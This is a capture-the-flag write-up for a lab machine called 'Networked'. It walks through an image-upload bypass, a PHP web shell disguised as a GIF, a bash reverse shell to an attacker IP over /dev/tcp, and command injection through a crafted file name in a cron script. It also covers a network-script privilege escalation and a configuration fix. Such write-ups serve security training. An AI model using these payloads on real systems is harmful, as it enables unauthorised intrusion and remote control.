

# Networked

### Machine Info


#### Nmap


##### HTTP (Port 80)

Index Page:


From the source code, we can check that `upload and gallery not yet linked` line is commented out. I think there should be `upload` and `gallery` pages somewhere in the server.


###### Gobuster


`/backup`:

I downloaded `backup.tar` to check what it is:


`backup.tar`:


I checked the `index.php` and it is just same as web application `index.php`. Let's just check if `upload.php, photos.php and lib.php` are exist in web server.

`/photos.php`:


`/upload.php`:


Let's check if `photos.php` lists change when we upload new image.

I just create empty `test.jpg` and tried to upload:


I added file magic bytes, `\xff\xd8\xff\xe9` to `test.jpg` and tested based on `upload.php` and `lib.php` to check out how it detects file type:  


After I added magic bytes, it seems like it is working fine.

Try again to upload file:


It worked and I can check updated list from `photos.php`:


#### Exploit

Create malicious image file and upload:
```
❯ cat shell.php.png
GIF89a; <?php system($_GET['cmd']); ?>
```
`cmd=whoami`:


We have checked that it is working, so I will create new one for reverse shell:
```
❯ cat shell.php.png
GIF89a; <?php system('bash -c "bash -i >& /dev/tcp/10.10.14.37/1234 0>&1"'); ?>
```

`nc` listener on attacking side:


###### PHP Misconfiguration (After root)
After I rooted this machine, I read some write-ups and this was possible due to PHP Misconfiguration.

```
[root@networked ~]# cat /etc/httpd/conf.d/php.conf
AddHandler php5-script .php
AddType text/html .php
DirectoryIndex index.php
php_value session.save_handler "files"
php_value session.save_path    "/var/lib/php/session"
```
The configuration file does not says that files need to be end with `.php` extension to be executed. Therefore when it was executed even `.php` was in the middle of the file name. To fix this issue:
```
<FilesMatch ".php$">
    AddHandler php5-script .php
    AddType text/html .php
</FilesMatch>
DirectoryIndex index.php
php_value session.save_handler "files"
php_value session.save_path    "/var/lib/php/session"
```

#### Privilege Escalation

From the home directory of user `guly` I found 2 interesting files:

`crontab.guly`:

The script `check_attack.php` executes every 3 minutes.

`check_attack.php`:

The vulnerable point of this script is that `exec()` command in `php` does not check input value. Therefore in the line `exec('nohup /bin/rm -f $path$value')`, if we create file with name like `;whoami`, the script will execute command `whoami`.

##### apache to Guly

Create file with malicious file name:


And just wait for 3 minutes:


##### User Guly to root

Check for `sudo` privilge:


User `guly` can run `changename.sh` command with root privilege.

`changename.sh`:


The script write user input value for variables to `network-scripts/ifcfg-guly`. I searched for this kind of script and found two links about vulnerability :</br>
[]()https://bugzilla.redhat.com/show_bug.cgi?id=1697473</br>
[]()https://seclists.org/fulldisclosure/2019/Apr/24

So anything after a space in a value in a network script after the variable, it will be executed as a command. Interesting point is the `regexp` in the script allows space which means we can execute anything we want.


And you can get `root.txt` :)
